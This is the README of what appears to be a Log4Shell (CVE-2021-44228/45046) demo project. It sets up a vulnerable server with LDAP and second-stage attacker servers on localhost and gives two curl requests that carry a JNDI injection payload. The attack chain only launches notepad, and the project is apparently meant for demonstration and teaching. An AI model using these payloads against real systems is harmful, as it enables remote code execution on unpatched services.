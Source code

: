 ### Log4Shell Demo Attack

[CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228)

[CVE-2021-45046](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45046)

Target the JDK version 8u181 for `vulnerable app`. The JDK can be grab from
```
https://cdn.azul.com/zulu/bin/zulu8.31.0.1-jdk8.0.181-win_x64.zip
```

Run the servers from the main method

The vulnerable server `http://localhost:8080` 

First stage LDAP attacker server `http://localhost:1389` 

Second stage attacker server `http://localhost:8888`

Malicious request target normal log method 
```shell
curl --location --request GET 'http://localhost:8080/' \
--header 'X-Api-Version;' \
--header 'Content-Type: text/plain' \
--data-raw '${jndi:ldap://localhost:1389/exploit/bm90ZXBhZA}'
```

Malicious request target thread context
```shell
curl --location --request GET 'http://localhost:8080/thread-context' \
--header 'X-Api-Version;' \
--header 'Content-Type: text/plain' \
--data-raw '${jndi:ldap://localhost:1389/exploit/bm90ZXBhZA}'
```

The end of the attack chain will open the notepad program

